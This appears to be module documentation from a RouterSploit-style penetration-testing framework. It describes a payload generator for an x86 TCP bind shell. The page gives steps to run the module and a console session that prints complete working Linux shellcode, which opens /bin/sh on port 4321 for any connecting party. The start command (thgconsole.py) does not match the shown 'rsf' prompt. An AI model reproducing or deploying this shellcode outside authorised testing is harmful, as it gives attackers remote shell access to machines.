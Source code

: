 ## Description

Module generates payload that creates interactive tcp bind shell for X86 architecture.

## Verification Steps

  1. Start `./thgconsole.py`
  2. Do: `use payloads/x86/bind_tcp`
  3. Do: `set rport 4321`
  4. Do: `run`
  5. Module generates x86 bind shell tcp payload

## Scenarios

```
rsf > use payloads/x86/bind_tcp
rsf (X86 Bind TCP) > set rport 4321
[+] rport => 4321
rsf (X86 Bind TCP) > run
[*] Running module...
[*] Generating payload
[+] Building payload for python
payload = (
    "\x31\xdb\xf7\xe3\x53\x43\x53\x6a\x02\x89\xe1\xb0\x66\xcd\x80"
    "\x5b\x5e\x52\x68\x02\x00\x10\xe1\x6a\x10\x51\x50\x89\xe1\x6a"
    "\x66\x58\xcd\x80\x89\x41\x04\xb3\x04\xb0\x66\xcd\x80\x43\xb0"
    "\x66\xcd\x80\x93\x59\x6a\x3f\x58\xcd\x80\x49\x79\xf8\x68\x2f"
    "\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0"
    "\x0b\xcd\x80"
)
```
